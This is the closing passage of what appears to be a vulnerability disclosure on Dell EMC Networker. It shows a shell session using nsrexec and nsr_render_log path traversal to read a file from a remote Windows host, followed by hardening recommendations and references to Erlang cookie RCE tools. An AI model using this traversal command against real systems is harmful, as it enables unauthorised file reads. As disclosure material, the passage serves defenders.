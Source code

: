 ```
[root@networker-client1 vagrant]# export RCMD='nsr_render_log "C:\\Windows\\System32\\drivers\\etc\\hosts"'
[root@networker-client1 vagrant]# nsrexec -c 192.168.121.182
5  1 1 0 0 unknown unknown LOG unrendered # Copyright (c) 1993-2009 Microsoft Corp.
5  1 1 0 0 unknown unknown LOG unrendered #
5  1 1 0 0 unknown unknown LOG unrendered # This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
Unable to render the following message: # Copyright (c) 1993-2009 Microsoft Corp.
Unable to render the following message: #
Unable to render the following message: # This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
--snip--
```

---

### Recommendations to Networker Administrators

Fix your Dell EMC Networker by following the Dell EMC Networker Security Guidelines to the letter. Do not allow oldauth, limit exposure of nsrexecd with strong firewall rules, and IP whitelisting in Networker config, provision NSRLA entries *prior* to running nodes.

### Recommendations to Dell

We recommend Dell EMC to protect the nsrexecd service against path traversal by fixing the
nsr_render_log binary so that it verifies that the file being read is in fact a Dell
EMC Networker log file and that this file is part of a Dell EMC Networker install
subdirectory.

We recommend Dell EMC to configure the Erlang runtime not to expose the Erlang
distribution service on all interfaces. Our understanding is that Erlang is present
due to usage of RabbitMQ message broker for message based communication between
the EMC Networker server and NMC Server. The only port that needs to be exposed for
that communication channel to be established is port TCP/5672 for plaintext AMQP
or TCP/5671 for SSL/TLS AMQP. The Erlang Port Mapper Daemon service exposed on 
TCP/4369 and the Erlang distribution service bound to a random port are not required
for that purpose and can be closed by configuration or firewall rule.

### References

- [0] <span id="ref0"/>**Dell Technologies** - *EMC NetWorker Security Configuration Guide* - [https://www.delltechnologies.com/en-us/collaterals/unauth/technical-guides-support-information/products/data-protection/docu91948.pdf](https://www.delltechnologies.com/en-us/collaterals/unauth/technical-guides-support-information/products/data-protection/docu91948.pdf)
- [1] <span id="ref1" />**Insinuator** - *Erlang distribution RCE and a cookie bruteforcer* [https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)
- [2] <span id="ref2" />**Rapid7** - *Erlang Port Mapper Daemon Cookie RCE* - [https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/](https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/)
- [3] <span id="ref3" />**gteissier** - *erl-matter* - [https://github.com/gteissier/erl-matter](https://github.com/gteissier/erl-matter)


### PoC||GTFO

All proof-of-concepts are available on [Github](https://github.com/qkaiser/networker-pocs).
